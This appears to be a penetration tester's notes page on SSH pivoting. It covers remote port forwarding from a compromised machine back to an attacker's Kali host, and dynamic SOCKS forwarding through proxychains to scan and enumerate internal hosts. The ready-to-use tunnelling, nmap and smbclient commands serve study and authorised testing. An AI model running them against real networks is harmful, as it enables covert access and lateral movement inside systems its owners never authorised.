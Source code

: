 {% tab title="Remote" %}
{% code overflow="wrap" %}
```bash
# can be used to connect back to an attacker-controlled SSH server, and bind the listening port there. We can think of it like a reverse shell, but port forwarding.
# Remote (useful if there is a FW on the target and inbound rules are strong) (SSH server on our attacking machine, and we connect from the B compromised machine to our Kali overf SSH)
kali@kali sudo sytemctl start ssh # We start SSH server on our attacking machine / BEFORE STARTING SSH SERVER, SET A STRONG PASSWORD FOR KALI USER!!!!
sudo ss -tulpn # check SSH port is open and listening on all interfaces 0.0.0.0:22
# In order to connect back to Kali SSH server, password-based auth must be allowed by setting PasswordAuthentication to yes in /etc/ssh/sshd_config
compromised@machine ssh (-f) -N -R 127.0.0.1:4444:10.10.20.25:80 kali@192.168.100.15 # listen on port 4444 of Kali (127.0.0.1:4444) and forward all traffict to HTTP port of the target C (10.10.20.25:80)
# Check the remote port forward is listening
ss -ntplu | grep 4444
# Now connect to the target on 127.0.0.1 port 4444 via the appropiate tool regarding the service there (browser, SMB, MySQL, psql...)




# Remote Port Forwarding
The remote port forwarding feature in SSH can be thought of as the reverse of local port forwarding, in that a port is opened on the remote side of the connection and traffic sent to that port is forwarded to a port on our local machine (the machine initiating the SSH client).
Remote -> in case inbound traffic on the target is not allowed // like reverse the local (like local but done on the target)
"user@victim" ssh -f -N -R $KALI_IP:2221:127.0.0.1:3306 kali@10.11.0.4 # important this order
# This will forward all incoming traffic on our Kali system's local port 2221 to port 3306 on the compromised box
Another way to do this remote is do it on our Kali using the victim SSH connection
"kali@kali" ssh -R PORT:DESTIP:DESTPORT user@victim
# Check port is open correctly
ss -antp | grep "2221"
kali@kali:~$ sudo nmap -sS -sV 127.0.0.1 -p 2221

# To enable SSH (internal port) for us on port 4646 for example
target@machine ssh -R 4646:$IP:22 <username>@<ip> (USER-IP OF KALI MACHINE)
# It's possible to use -R twice for two different ports
```
{% endcode %}
{% endtab %}

{% tab title="Dynamic" %}
{% code overflow="wrap" %}
```bash
# Dynamic (access any port of any host that the user@IP has access through the single listening port) (uses SOCKS as proxying protocol)
# From our pivot compromised machine (B), we use SSH creds from C to create the port forwarding to access the internal subnet D
(from B) ssh -N -D 0.0.0.0:9999 user@C_TARGET_IP # listen on all interfaces on port 9999, does not need socket address to forward to (TARGET_IP:TARGET_PORT)
# Proxychains (will not work on statically-linked binaries)
# Edit /etc/proxychains4.conf and replace whatever is there to have a single line
# Then from our attacking machine we can access subnet D using socks and proxychain (socks5 B_PIVOT_IP 9999)
socks5 $PROXY_IP $LISTENING_PORT # PROXY_IP is the IP of the B machine or where the ssh dynamic command was run in case there is A -> B -> C -> D
proxychains smbclient -L //172.16.16.16/ -U $user --password=$PASS # IP is the internal IP we want to access as he have a direct connection to it
proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.16.16


```